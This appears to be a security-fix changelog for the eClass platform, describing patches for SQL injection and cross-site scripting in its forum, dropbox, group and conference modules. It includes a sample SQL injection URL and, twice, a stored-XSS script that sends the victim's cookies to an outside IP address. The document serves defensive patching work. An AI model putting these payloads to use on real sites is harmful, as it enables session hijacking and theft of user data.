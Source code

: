 # Changelog for eClass


### Changes in /include/lib/


#### Changes in main.lib.php
 * Changed db_query to not display error info of sql_queries
 * ? more here

### Changes in /module/phbb/
#### viewforum.php && viewtopic.php
   * Added checking if $_GET['forum'] is a number and complies with the UTF-8 standard lines 75 - 81. This should prevent this page from sql injections   

#### newtopic.php & functions.php & reply.php
  * We can have injections here from $_GET['forum'] attribute. More specifically if we send non numeric values through the $_GET we have an sql error reporting rendered. This is wrong.
  We added lines 83-91 in order to be sure that the input incoming from the $_GET['forum'] is correct and we suppressed the sql error output  
   ** hint ** sql possible injection here http://geza.csec.gr/modules/phpbb/newtopic.php?forum=1%27%20%20or%20%27a%27

  * The above xss attack can be used here
  * Also this attack when selecting html in the xinha editor
  ```html  
  <html>
  <script>window.onload=function() {
  console.log('hey');
  var link = "http://195.134.67.223:8095?";
  var cookie = document.cookie.split(";");
  link = link.concat(cookie);
  window.location = link;
  }</script>
  </html>
  ```  
  In order to stop incoming xss attacks we have added a function in functions.php called stripUnwantedTagsAndAttrs which allows only specific tags to  be accepted. Possibly here if we change the encoding we might have problems. **check this again**  
  * Actually we have to remove that since this function removes completely user input if the text is plain text. So we have to use htmlescapechars. So we used htmlescapechars when getting the message as well as also when rendering the reply
  * subject seems to be safe with the strip tags function

#### reply.php & new topic.php
  * Possible persistent xss attack here by selecting html in editor and then writing:
  ```html  
  <html>
  <script>window.onload=function() {
  console.log('hey');
  var link = "http://195.134.67.223:8095?";
  var cookie = document.cookie.split(";");
  link = link.concat(cookie);
  window.location = link;
  }</script>
  </html>
 ```  

#### editpost.php  
  * we did the same here. We applied sanitization tehniques to the url parameters as well as htmlescapechars when rendering the editpost because the script could be executed on the admin side and take control of session.
  Changes on lines 80 - 103 and changes on 354 & 362  


#### Changes in modules/dropbox/dropbox_submit.php
   * Sanitized input from $_POST parameters of the form in order to stop xss attacks. Used htmlspecialchars.  

#### Changes in /modules/group/group_space.php
 * Possible sql injection here, forced the group parameter to be always numeric and in UTF-8 format

 #### Changes in /modules/group/document.php
 * possible sql injection here showing the contents of the server folder
 * used htmlspecialchars to stop xss in the name of a new folder

#### Changes in in modules/conference/messageList.php
 * added htmlspecialchars to avoid xss attacks
